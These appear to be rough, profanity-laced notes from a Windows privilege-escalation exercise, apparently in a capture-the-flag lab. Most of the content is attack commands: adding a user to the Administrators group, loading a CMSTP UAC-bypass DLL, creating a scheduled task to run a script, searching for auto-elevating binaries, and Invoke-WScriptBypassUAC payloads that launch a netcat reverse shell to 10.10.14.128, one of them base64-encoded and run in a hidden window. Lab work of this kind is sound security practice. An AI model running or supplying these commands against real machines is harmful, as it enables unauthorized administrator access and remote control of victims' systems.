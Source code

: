 get-localuser this should print out the users 

```
Get-LocalUser
```

Get-LocalUser this should ouput all the proprties for local user account.

```
Get-LocalUser -Name * | Select-Object *
```

```
Add-LocalGroupMember -Group 'Administrators' -Member ('batman') –Verbose
```

well fuck it im done with this bullshit.

```
[Reflection.Assembly]::Load([IO.File]::ReadAllBytes("$pwd\CMSTP-UAC-Bypass.dll"))
```

<https://0x00-0x00.github.io/research/2018/10/31/How-to-bypass-UAC-in-newer-Windows-versions.html>

```
SchTasks /Create /SC DAILY /TN ``"NoUAC"` `/TR "C:\tomcat\apache-tomcat-8.5.37\bin\death-PINK.ps1" /ST ``23:``36
```

ugh so tried to bypass the uac by using empires invoke-wscriptbypassuac. The target isn't vulnerable, i think this would have shown up on the powerup scan maybe. the later one worked just as well but failed all the same. the former the nc string is encode in base64. 

<https://github.com/nettitude/PoshC2/blob/master/Modules/Invoke-WScriptBypassUAC.ps1>

```
Invoke-WScriptBypassUAC -payload "powershell.exe -ep Bypass -WindowStyle Hidden -enc LWVuYyAuXG5jLmV4ZSAtZSBjbWQuZXhlIDEwLjEwLjE0LjEyOCA4MDg1"

Invoke-WScriptBypassUAC -payload ".\nc.exe -e cmd.exe 10.10.14.128 8085"
```

finding elevated bianries

list of elevated exe bianries

```

```



```
findstr /C:"<autoElevate>true" C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```

Output

```
systemPropertiesAdvanced.exe
        <autoElevate>true</autoElevate
```

```
C:\Windows\system32;
C:\Windows;
C:\Windows\System32\Wbem;
C:\Windows\System32\WindowsPowerShell\v1.0\;
C:\Windows\System32\OpenSSH\;
C:\Users\Batman\AppData\Local\Microsoft\WindowsApps
```
